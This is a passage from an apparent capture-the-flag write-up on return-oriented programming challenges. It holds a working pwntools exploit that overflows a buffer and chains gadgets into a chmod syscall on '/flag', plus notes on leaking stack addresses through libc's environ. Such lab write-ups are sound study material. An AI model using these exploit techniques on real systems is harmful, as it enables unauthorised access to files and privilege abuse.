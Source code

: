 ## Challenge 4

Write `chmod` shellcode, and use stack leak to store the `"/flag\x00"` string. 

```python
def main(): 
    elf = ELF(BINARY)
    rop = ROP(BINARY)
    pop_rdi_ret = rop.find_gadget(['pop rdi']).address
    pop_rsi_ret = rop.find_gadget(['pop rsi']).address
    pop_rax_ret = rop.find_gadget(['pop rax']).address
    syscall_ret = rop.find_gadget(['syscall']).address

    print(f'syscall:{hex(syscall_ret)}')

    for delta in range(-0x50, 0x50, 8):
        #p = gdb.debug(BINARY, GDB_SCRIPT)
        p = process(BINARY)
        p.recvuntil(b'[LEAK] Your input buffer is located at: ')
        input_stack_addr = int(p.recv(14), 16)
        flag_addr = input_stack_addr + 0x200
        print(f'flag addr:{hex(flag_addr)}')

        buf = b'A' * (0x58 + delta)
        buf += p64(pop_rdi_ret)
        buf += p64(flag_addr)
        buf += p64(pop_rsi_ret)
        buf += p64(0xffff)
        buf += p64(0x4141414141414141)  # r15 crap
        buf += p64(pop_rax_ret)
        buf += p64(90)
        buf += p64(syscall_ret)
        buf += b'/flag\x00\x00\x00' * 0x100

        time.sleep(0.1)
        p.send(buf)

if __name__ == '__main__':
    main()
```

## Challenge 5

Now we have no stack leak, and we have no `push rsp` gadget or similar. We can use `puts` / `printf` trick in order to leak libc addresses, and also - stack addresses. 

A cool trick to retrieve stack address from libc is to leak the `environ` static variable value, which is a stack address. 

```python
from glob import glob
from dataclasses import dataclass
from subprocess import check_output
from pwn import *
import os, sys
import struct
import time
import shutil
import signal

BINARY = glob('/challenge/baby*')[0]
LIBC = '/lib/x86_64-linux-gnu/libc.so.6'
GDB_SCRIPT= '''
b challenge
'''
```